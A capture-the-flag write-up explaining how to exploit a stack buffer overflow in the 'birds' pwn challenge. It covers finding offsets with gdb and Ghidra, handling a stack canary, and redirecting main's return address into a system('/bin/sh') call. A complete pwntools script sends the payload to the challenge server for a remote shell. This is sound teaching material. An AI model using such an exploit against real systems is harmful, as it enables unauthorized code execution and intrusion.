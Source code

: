 ##### pwn challenge
Required Tools: 
- checksec
- gdb debugger
- Linux operating system or Windows Subsystem for Linux (WSL)
- pwntools

For this challenge, all that we need to do is find the distance between the buffer, the canary, and the return address at the end of main. After that, we just need to understand pwntools, how stack memory works, and how assembly works, and we can write a quick exploit script in python to get shell access to the remote server and print the flag.

### 1.  Finding all of our needed offsets
- We will use gdb to debug the **birds** executable. We will set two breakpoints. One at the instruction that takes place right after the buffer is filled, and another right on the RET instruction.
- Because this program is so simple you may be able to tell where to place both of these breakpoints by running the command **disas main** 
![main dissassembly](main%20disassembly.png)

We can go ahead and place our breakpoints  at the RET instruction, and at the cmpl assembly instruction
```
(gdb) b *0x40125d
Breakpoint 1 at 0x40125d                                                                                                                               
(gdb) b *0x401285
Breakpoint 2 at 0x401285 
```

If you want to make sure you are understanding correctly and are placing your breakpoints at the right spot, you can open up the executable in ghidra or IDA pro and compare memory addresses with their places in the decompiled C code.

After analyzing the executable, we find **main** in the symbol tree under functions. We can see that, although gdb and Ghidra disassembled the birds executable a little differently, that we have the correct position for both the start of the if statement, and the return address for main
![ghidra-1](ghidra-1.png)

While we are in gdb and ghidra, let us also figure out the address of the call to run the shell. We can skip straight to this address in memory to avoid having to call a gadget.

Let's first disassemble win() in gdb, find the address we think is the system call to run the shell, and then verify we are correct with ghidra
 ![win disassembly](win%20disassembly.png)
It appears that the system call in **win** happens at 0x4011e6 in memory. And we can verify this in ghidra by finding **win** in the Symbol Tree
![win breakpoint](win%20breakpoint.png)

**WATCH OUT!**

If we assumed that this memory address is where we should jump to in order to execute our shell system call, we would be mistaken! We have to remember that function calls require setup in assembly. The system function call requires an argument  (a command). Recall that in linux x86-64 assembly, RDI is a functions first argument, followed by RSI, RDX , RCX, and so on. This means that RDI must be filled with the system command '/bin/sh' before the system call, otherwise the function call will fail or behave unpredictably. 

From looking at ghidra's visual debugger, we can see that inside of the IF statement there are 2 lines of preparation before the system call is made. This means we should override main's return address with **0x4011dc** , which will bring us right to our shell system call.
![Assembly Preparation](Assembly%20Preparation.png)

Ok, so now it's time to run birds with the breakpoints we have set. 
1. On our first breakpoint, we are trying to determine the distance between the buffer and the canary
2. On our second breakpoint, we are trying to find the return address of main, so that we can find the distance between the canary and the return address.

When we run birds in gdb, we are prompted to fill the buffer. Go ahead and fill the buffer with 64 characters of any kind. Each character is a byte, that's why the buffer size and the character count is the same. In my debugging session I put in 64 A's.

Feel free to copy/paste

```AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ```

Once you press enter, you will be stopped at our first breakpoint. 

At this breakpoint we want to examine the stack to see where the buffer ends and the canary begins. To inspect the stack, run the below command:
**x/127wx $rsp**
![stack-screenshot](stack-screenshot.png)
- Lets break down the above GDB command:
	- x/ -> examine -> used to inspect memory
	- 128 -> Specifies the number of units to examine, in this case, 128 units
	- w -> Stands for "word", which means each unit is 4 bytes / 32 bits
	- x -> Specifies the format, which in this case is hexadecimal
	- $rsp Refers to the stack pointer register
	- All of the A's here display as 0x41, because the ASCII representation of A is 0x41 in hexadecimal (65 in decimal)

Since each group of data displayed here is 4 bytes, we can tell that there are **12 bytes of data** in between the buffer and the canary

Let's keep this screenshot in mind and continue to the next breakpoint. We can continue by typing **c**

Once we break at the RET instruction, all we have to do is step one instruction forward and find the contents of RIP. Recall that RIP is the instruction pointer. Because we broke right before RET, if we step one instruction forward with the command **stepi**, the next instruction will be where we are returning to, AKA the return address of main.

If we run the command **info stack frame**, we can find the contents of RIP , and try and find this address on the stack that we took a screenshot of before.
![RIP Contents](RIP%20Contents.png)

We found that the return address is 8 bytes away from the canary!

![stack-screenshot-Highlights](stack-screenshot-Highlights.png)

We now know everything we need in order to write our pwntools script.

We can take advantage of pwntools p32() and p64() functions to add our canary and return address data to the payload, as the data needs to be changed from big endian to little endian format in order for the CPU to read it properly.

pwntools script:

```
from pwn import *

# -- PAYLOAD CREATION -- #
payload = b"A"*64
payload += b"B" * 12
payload += p32(0xDEADBEEF)
#payload += b"\xef\xbe\xad\xde" <- what the canary ends up as

payload += b"C" * 8
payload+= p64(0x00000000004011dc)
#payload += b"\xdc\x11\x40\x00\x00\x00\x00\x00" <- what the ret addr ends up as

print(payload)

# ---------------------- #


# EXECUTABLE CONNECTION #

# If you are connecting to a local process, use the below

#p = process('./birds')
#p.sendline(payload)
#p.interactive()

# If you are connecting to a remote server, use the below

target_host = "tjc.tf"
target_port = 31625

conn = remote(target_host, target_port)
conn.recvuntil("wrong!\n")
conn.sendline(payload)
conn.interactive()

# --------------------- #
```

Explanation of big -> little endian conversion

Recall that in big endian format, numbers to the left are more significant than numbers on the right. Humans use big endian number formatting.

In little endian format, numbers to the right are more significant than numbers to the left.

For example, consider the big endian number 123. In little endian, that number would be written as 321. But they refer to the same value.

gdb converts stack memory from little endian to big endian for readability purposes. But when we perform our buffer overflow attack, we have to make sure the data ends up on the stack in little endian format.

However, each character/byte is represented with two hexidecimal digits. These two digits don't change order. ![big-little-endian](big-little-endian.png)

Putting the connection in interactive mode allows the user to run shell commands.#

